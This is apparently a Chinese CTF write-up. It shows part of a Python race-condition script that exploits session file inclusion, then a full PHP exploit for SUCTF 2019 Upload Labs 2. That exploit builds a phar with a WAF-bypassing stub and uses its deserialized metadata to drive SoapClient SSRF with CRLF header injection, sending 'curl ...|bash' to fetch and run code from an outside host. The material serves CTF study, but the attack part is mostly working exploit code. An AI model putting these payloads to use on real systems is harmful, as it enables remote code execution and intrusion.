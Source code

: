 def read(session):
    while True:
        resp = session.post('http://5bee85f4-0831-4fcf-a4c2-f33a607684b0.node3.buuoj.cn/?file=/tmp/sess_'+sessid,data=data)
        if 'peri0d.txt' in resp.text:
            print(resp.text)
            
            event.clear()
        else:
            print('++++++++++++++++')
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in xrange(1,30): 
            threading.Thread(target=write,args=(session,)).start()
        for i in xrange(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()

神仙 膜了 https://blog.csdn.net/weixin_48537150/article/details/113189052

## [SUCTF 2019]Upload Labs 2 
关键词：phar反序列化
给了admin.php源码，rce需要本地IP，由于是remoteaddr，无法直接伪造，所以得寻找ssrf的点。
class.php里wakeup函数里有个ReflectionClass类，报告了一个类的有关信息。接下来会调用newInstanceArgs函数，查阅官方文档可知此函数从给出的参数创建一个新的类实例。也就是可以实例化任何类。
思路：上传一个phar文件，在func.php读取该文件，getMIME()触发phar反序列化，从而调用SoapClient类，成功伪造IP。
exp：

<?php
$phar = new Phar('troy3e.phar');
$phar->startBuffering();
$phar->addFromString('text.txt','text');
$phar->setStub('<script language="php">__HALT_COMPILER();</script>'); //bypass class.php waf

class File {
    public $file_name = "";
    public $func = "SoapClient";

    function __construct(){
        $target = "http://127.0.0.1/admin.php";
        $post_string = 'admin=&cmd=curl http://henuctf.com:5555/tmp/|bash&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3='. "\r\n";
        $headers = [];
        $this->file_name  = [
            null,
            array('location' => $target,
                  'user_agent'=> str_replace('^^', "\r\n", 'xxxxx^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string),
                  'uri'=>'hello')
        ];
    }
}
$object = new File;
echo urlencode(serialize($object));
$phar->setMetadata($object);
$phar->stopBuffering();
